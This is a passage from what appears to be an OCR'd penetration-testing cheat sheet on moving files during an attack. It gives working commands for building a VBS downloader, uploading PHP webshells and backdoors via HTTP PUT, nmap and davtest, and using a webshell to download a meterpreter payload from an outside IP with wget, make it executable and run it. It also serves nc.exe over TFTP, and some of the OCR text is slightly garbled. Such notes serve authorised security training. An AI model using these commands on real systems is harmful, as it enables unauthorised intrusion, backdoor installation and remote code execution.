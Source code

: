         timeout 1
         echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo

      The file can be run using the following syntax:

      `C:\temp\cscript.exe webdl.vbs`

-   Mounting File Shares

    -   Mount NFS share to /mnt/nfs
        mount $ip:/vol/share /mnt/nfs

-   HTTP Put
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

-   Uploading Files
    -------------------------------------------------------------------------------------------------------------

    -   SCP

        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2

        scp localfile username@$ip:~/Folder/

        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~


    -   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

        `davtest -move -sendbd auto -url http://$ip`

        https://github.com/cldrn/davtest

        You can also upload a file using the PUT method with the curl command:

        `curl -T 'leetshellz.txt' 'http://$ip'`

        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    -   Upload shell using limited php shell cmd
        use the webshell to download and execute the meterpreter
        \[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
        /tmp/evil" http://$ip/files/sh.php
        \[curl -s --data "cmd=chmod 777 /tmp/evil"
        http://$ip/files/sh.php
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    -   TFTP
        mkdir /tftp
        atftpd --daemon --port 69 /tftp
        cp /usr/share/windows-binaries/nc.exe /tftp/
        EX. FROM WINDOWS HOST:
        C:\\Users\\Offsec>tftp -i $ip get nc.exe
